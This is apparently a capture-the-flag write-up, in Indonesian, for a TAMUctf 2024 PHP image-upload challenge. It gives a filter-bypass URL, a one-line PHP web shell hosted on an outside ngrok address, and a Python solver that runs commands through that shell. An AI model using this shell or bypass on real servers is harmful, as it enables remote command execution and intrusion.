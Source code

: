 # Remote - Web - tamuctf-2024
pada challenge ini terdapat fitur upload yang hanya menerima image, dan kita tidak bisa mengupload shell php dikarenakan adanya filter yang memvalidasi jika di url terdapat php maka file tidak akan terupload, namun ini bisa kita bypass dengan memanfaatkan fungsi yang ada pada code.

## Source Code
```php
<?php
include 'config.php';
include 'bulletproof.php';

function random_filename($length, $directory = '', $extension = '')
{
    // default to this files directory if empty...
    $dir = !empty($directory) && is_dir($directory) ? $directory : dirname(__FILE__);

    do {
        $key = '';
        $keys = array_merge(range(0, 9), range('a', 'z'));

        for ($i = 0; $i < $length; $i++) {
            $key .= $keys[array_rand($keys)];
        }
    } while (file_exists($dir . '/' . $key . (!empty($extension) ? '.' . $extension : '')));

    return $key . (!empty($extension) ? '.' . $extension : '');
}

session_start();
$sess = basename(session_id());

if($sess !== session_id()) {
  echo "ERROR: Invalid session cookie. Please delete the PHPSESSID cookie.";
  die();
}

if(!file_exists('/tmp/uploads/' . $sess)) {
  mkdir('/tmp/uploads/' . $sess, 0755, true);
}

if($_SERVER['REQUEST_METHOD'] === 'POST') {
  if(isset($_FILES['toUpload'])) {
    $image = new Bulletproof\Image($_FILES);
    if($image['toUpload']) {
      $image->setLocation("/tmp/uploads/" . $sess);
      $image->setSize(100, 3000000);
      $image->setMime(array('jpeg', 'gif', 'png'));
      $upload = $image->upload();
  
      if($upload) {
        header('Location: /index.php?message=Image uploaded successfully&status=success');
      } else {
        header('Location: /index.php?message=Image upload failed&status=fail');
      }
    } else {
      header('Location: /index.php?message=Image upload failed&status=fail');
    }
  } else if(isset($_REQUEST['url'])) {
    if(!preg_match("/(htm)|(php)|(js)|(css)/", $_REQUEST['url'])) {
      $url = filter_var($_REQUEST['url'], FILTER_SANITIZE_URL);
      if(filter_var($url, FILTER_VALIDATE_URL)) {
        $img = file_get_contents($url); 
        if($img !== false) {
          $mime = substr($url, strrpos($url, '.') + 1);
          $file = random_filename(32, '/tmp/uploads/' . $sess, $mime);
          
          $f = fopen('/tmp/uploads/' . $sess . '/' . $file, "wb");
          if($f !== false) {
            fwrite($f, $img);
            fclose($f);
            header('Location: /index.php?message=Image uploaded successfully&status=success');
          } else {
            header('Location: /index.php?message=Image upload failed&status=fail'); 
          }
        } else {
          header('Location: /index.php?message=Image upload failed&status=fail');
        }
      } else {
        header('Location: /index.php?message=Image upload failed&status=fail');
      }
    } else {
      header('Location: /index.php?message=Image upload failed&status=fail');
    }
  }
} else {
  if(isset($_GET['file'])) {
    $safe = basename($_GET['file']);
    if($safe !== "" && file_exists('/tmp/uploads/' . $sess . "/" . $safe)) {
      $file = '/tmp/uploads/' . $sess . "/" . $safe;
      $fp = fopen($file, 'rb');

      header('Content-Type: '. mime_content_type($file));
      header('Content-Length: ' . filesize($file));

      fpassthru($fp);
      die();
    } else {
      header('Location: /index.php?message=File not found&status=fail');
    }
  }
}
?>
```

terlihat pada kode ditas terdapat fungsi `preg_match` yang memvalidasi apakah ada `htm`, `php`, `js`, dan `css` pada url, jika ada maka file tidak akan teruplaod

kemudian terdapat fungsi `filter_var`, yang akan kita manfaatkan untuk mengupload file `shell.php`

terlihat bahwa `preg_match` akan melakukan pengecekan apakah ada kata kata yang di blacklist pada url, namun jika kita menambahkan seperti `%00`, `%20`, kita bisa membypass fungsi `preg_match`, dan url kita tetap valid karena adanya fungsi `filter_var`, yang akan menghapus spasi atau null byte pada url.

ini payloadnya
```html
https://d341-180-244-128-189.ngrok-free.app/shell.p%20hp
```

dan ini isi dari shell.php
```php
<?php system($_GET['cmd']); ?>
```

berdasarkan kode di index.php, kita bisa melakukan file upload via url, kita bisa memanfaatkannya untuk mengupload `shell.php`, yang sudah di hosting di `ngrok`, dan menguploadnya ke sistem target.

## Solver Code
```python
import requests

link = 'https://d341-180-244-128-189.ngrok-free.app/shell.p%20hp'
url = f'http://localhost:8000/index.php?url={link}'
cmd = 'cat /var/www/flag*'
flag = f'http://localhost:8000/uploads/467456e9f46c3e641ae6afc15b478c87/gi0dylk3cxprcwj0dcpfft2q2zk8r5qh.php?cmd={cmd}'

cookie = {'PHPSESSID' : '467456e9f46c3e641ae6afc15b478c87'}

res = requests.post(url,cookies=cookie)
flag = requests.get(flag, cookies=cookie)
print(flag.text)
```

file upload diatas dapat ditemukan pada `http://<target-url>/uploads/<PHPSESSID>/<file-name>.php`

Thankyou :))